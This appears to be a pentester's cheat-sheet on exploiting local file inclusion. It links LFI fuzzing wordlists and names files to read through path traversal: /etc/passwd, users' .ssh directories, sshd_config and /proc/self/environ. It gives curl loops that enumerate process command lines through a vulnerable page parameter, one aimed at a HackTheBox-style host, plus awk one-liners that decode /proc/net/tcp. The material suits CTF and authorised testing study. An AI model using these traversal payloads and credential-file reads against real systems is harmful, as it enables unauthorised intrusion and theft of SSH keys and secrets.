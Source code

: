
try adding ./ everywhere - if it still works the same!!

also use file upload/RFI/log files

https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt

https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/LFI


proc/self/cmdline
proc/self/environ
/proc/self/cwd/app.py

/etc/passwd get usernames
/home/username/.ssh/

/etc/ssh/sshd_config for other ssh key locations like ecdsa or ed25519

/proc/self/status
to get process ids
loop through id's to get info on odd service on odd port
/proc/pid/net/tcp

`for i in $(seq 900 1000); do curl [http://airplane.htb](http://airplane.htb):8000/?page=../../../../proc/$i/cmdline -o -; echo " PID => $i"; done`

`seq 1 10000 | while read pid;do data=$(curl -s --output - "http://target/[vuln.php](https://vuln.php)?page=../../../../../../proc/${pid}/cmdline" 2>/dev/null); echo "pid($pid) -- $data"; done | tee [proc.pid_enum.cmdline.txt](https://proc.pid_enum.cmdline.txt)`


### Netstat similar data
`/proc/net/tcp` TCP connection data
`/proc/net/udp` UDP connection data
`/proc/net/unix` UNIX socket data

IP addresses and ports will be in hex format
```bash
grep -v "rem_address" /proc/net/tcp  | awk  '{x=strtonum("0x"substr($3,index($3,":")-2,2)); for (i=5; i>0; i-=2) x = x"."strtonum("0x"substr($3,i,2))}{print x":"strtonum("0x"substr($3,index($3,":")+1,4))}'
```

if on system where gnu awk is not used
```bash
grep -v "rem_address" /proc/net/tcp  | awk 'function hextodec(str,ret,n,i,k,c){
    ret = 0
    n = length(str)
    for (i = 1; i <= n; i++) {
        c = tolower(substr(str, i, 1))
        k = index("123456789abcdef", c)
        ret = ret * 16 + k
    }
    return ret
} {x=hextodec(substr($2,index($2,":")-2,2)); for (i=5; i>0; i-=2) x = x"."hextodec(substr($2,i,2))}{print x":"hextodec(substr($2,index($2,":")+1,4))}'
```
For info on local ports, like listening ports - replace `$2` with `$1` to get the local address column



